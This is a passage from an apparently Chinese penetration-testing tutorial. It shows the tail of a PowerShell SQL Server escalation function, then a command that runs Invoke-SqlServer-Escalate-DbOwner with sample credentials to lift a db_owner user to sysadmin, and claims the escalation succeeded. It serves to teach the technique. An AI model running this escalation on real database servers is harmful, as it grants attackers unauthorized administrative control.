             write-host "[*] Sorry, $ConnectUser doesn't have the db_owner role in any of the sysadmin databases." -foreground "red" 
        }
        
        write-host "[*] All done." 
    }

首先我们先把sysadmin的权限取消掉，这里可以自行取消掉，但是要添加就会报错



    Invoke-SqlServer-Escalate-DbOwner -SqlUser MyAppUser01 -SqlPass MyPassword! -SqlServerInstance WIN-80LVKKRM5UA



成功提权！！

参考链接
--------

> https://xz.aliyun.com/t/8188
